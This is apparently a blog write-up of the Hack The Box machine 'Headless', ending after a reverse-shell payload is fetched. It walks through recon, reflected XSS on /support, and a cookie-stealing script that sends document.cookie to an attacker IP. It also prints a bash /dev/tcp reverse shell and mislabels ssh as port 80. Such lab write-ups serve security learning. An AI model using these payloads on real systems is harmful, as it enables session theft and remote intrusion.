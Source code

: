 ```yaml
---
layout: default
title : brenda - headless HTB Writeup
---
```



![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(118).png)

`Headless` is an easy machine in HTB.

### REcon
### Nmap scan
`Nmap` detects two open ports on headless: ssh (80) and http UPnP(5000). Port 5000  seems to return a web page under construction.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(121).png)

Then added headless to /etc/host and proceeded to navigate to the website `http://headless.htb:5000`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(122).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(150).png)

### Directory Search

I used `ffuf` to search directories in headless.htb.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(123).png)

I got two directories: /dashboard which was restricted and /support. I navigated to /support directory

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(124).png)

The `/support` URI allows payload injection, triggering a hacking protection alert. The application replies with user HTTP request header info, indicating a potential reflected-XSS vulnerability.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(125).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(126).png)

### User flag

### Cookie stealing
I looked for how to steal cookies and found this [article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)
First, I initiated a Python server on port 1234 using the command 
`python3 -m http.server 1234`
Then, I captured an HTTP request and sent it to Repeater. 
Within Repeater, I injected a cookie-stealing payload into reflected headers like "User-Agent", "Accept" and "message" until I got a response. 
`<script>var i=new Image(); i.src="http://10.10.14.21:1234/?cookie="+btoa(document.cookie);</script>`
I repeated this process until our server intercepted and processed the injected payload.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(130).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(131).png)

After setting the accept field to the payload, my server intercepted the cookie, which was encoded in base64. I then proceeded to decode the cookie to reveal its contents.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(140).png)

Now that I obtained the desired cookie, I returned to `/dashboard` and intercepted the request in Burp Suite. I replaced the original cookie with the one we discovered.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(134).png)

I forwarded the request and got this page.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(133).png)

I attempted to gain access to a shell while being behind a protected page. To do so, I created a pyload file named `shell.sh` containing the following code:
`/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.21/1333 0>&1'`
Then set up a listener on port 1333

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(141).png)

With the server still running on port 1234, I requested the payload file `shell.sh` from my machine to the target server.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(138).png)















